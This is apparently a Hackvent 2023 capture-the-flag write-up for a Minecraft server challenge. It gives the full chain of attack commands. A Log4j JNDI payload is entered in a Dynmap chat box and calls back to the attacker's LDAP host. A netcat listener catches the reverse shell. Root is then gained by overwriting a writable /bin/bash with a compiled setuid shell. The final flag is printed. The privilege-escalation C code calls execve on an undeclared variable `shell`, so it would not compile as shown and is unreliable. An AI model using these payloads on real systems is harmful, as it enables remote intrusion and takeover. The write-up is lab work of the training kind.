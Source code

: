 # [HV23.19] Santa's Minecraft Server

## Introduction

Difficulty: Hard<br>
Author: nichtseb

Santa likes to play minecraft. His favorite version is 1.16. For security reasons, the server is not publicly accessible. But Santa is a little show-off, so he has an online map to brag about his fabulous building skills.

## Solution

Minecraft + Hackvent, hell yeah.

The description of the challenge tells us that the server is running on Minecraft 1.16, a pretty old version, the server itself is not accessible tho, only a Webinterface called [Dynmap](https://github.com/webbukkit/dynmap) is.

As we open up the Webinterface, we can see a chat-box. User supplied input + old Java? This screams Log4j.

First Log4j Shell exploit from the google results: https://github.com/kozmer/log4j-shell-poc

Start using: `python3 poc.py --userip 10.13.0.14 --webport 8888 --lport 4444`

Open a listener using: `nc -nvlp 4444`

Put the following into the chat-box: `${jndi:ldap://10.13.0.14:1389/a}`

Now we have a reverse shell, looking at `/` we can see a folder called `santas-workshop` which has two files `tool` and `tool.c` inside.

Looking at `tool` shows it has the `setuid` and `setgid` bits set, `tool.c` cotains the source code:

```c
cat tool.c
#include <unistd.h>
#include <stdio.h>

void debugShell() {
	printf("Launching debug shell...\n");
	char *argv[] = { "/bin/bash", 0 };
	execve(argv[0], &argv[0], NULL);
}

void main() {
	printf("--- Santas Workshop Tool ---\n");
	printf("Pick an action:\n");
	printf("s) debug shell\n");
	printf("-- more options to come\n");

	char option;
	scanf("%c", &option);

	switch (option) {
	case 's': debugShell(); break;
	default: printf("Unknonwn option!\n"); break;
	}
}
```

This does work to give us a debug shell, but it is missing the `-p` parameter, looking at `/bin/bash` shows us that it is writeable, how nice of the author.

After quickly writing a shell in C and compiling it using `gcc` we can copy it to `/bin/bash`.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    char *args[] = {"/bin/sh", "-p", NULL};
    execve(shell, args, NULL);
    return 0;
}
```

We can write this program to a file using a single line with `printf`:

`printf "#include <stdio.h>\n#include <unistd.h>\n\nint main() {\n    char *args[] = {\"/bin/sh\", \"-p\", NULL};\n\n    execve(shell, args, NULL);\n    \n    return 0;\n}\n" > shell.c`

Compile using: `gcc shell.c -o shell`

Overwrite bash: `cp shell /bin/bash`

Now for some reason, I had to `cd` into `/santas-workshop` before running `./tool` and supplying `s`, now we have a shell as `santa`

`cat /home/santa/flag.txt` reveals the flag.

Flag: `HV23{d0n7_f0rg37_70_upd473_k1d5}`
